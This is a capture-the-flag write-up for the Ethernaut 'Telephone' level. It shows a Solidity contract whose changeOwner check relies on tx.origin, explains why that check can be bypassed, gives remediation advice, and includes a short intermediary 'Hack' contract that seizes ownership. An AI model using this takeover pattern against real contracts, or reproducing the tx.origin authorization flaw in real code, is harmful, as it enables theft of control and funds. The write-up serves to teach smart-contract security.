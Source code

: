 ### TASK
Claim ownership of the contract below to complete this level.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```


### Vulnerabilities $ Recommendation:

1. One should never use tx.orign for authorization/authentication because it's vulnerable to phishing attack. it is vulnerable because it can be easily spoofed by a malicious user, leading to security vulnerabilities. This can allow an attacker to execute code as if they were a trusted user, potentially leading to unauthorized access to sensitive information or funds. 

```solidity
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
```

This function wants the tx.origin only to call the function, but shouldn't call it directly(i.e as msg.sender) for the function to pass.
<br/>
<b>"tx.origin" </b> will always return the address that have created/originates a transaction <br/>

<b>"msg.sender"</b> will return the address who made the last external call. Who sends or current account that invokes a function <br/>

Here, the "tx.origin" check in the "changeOwner" function is not a proper security measure as it can be bypassed by malicious contracts.
It's recommended to avoid using tx.origin in smart contract development and instead use a more secure alternative, such as msg.sender.


2. Use the "require" statement to ensure that the new owner is not the same as the existing owner, before changing the owner.


#### Attack Telephone Contract

```solidity
contract Hack {
    function transferTelephoneOwnership(Telephone _instanceAddress, address _newOwner) public {
        Telephone tel = Telephone(_instanceAddress);
        tel.changeOwner(_newOwner);
    }
}

```

Link to Exploit Repo: https://github.com/Sayrarh/Ethernaut-Challenge-with-Foundry/blob/master/test/Telephone.t.sol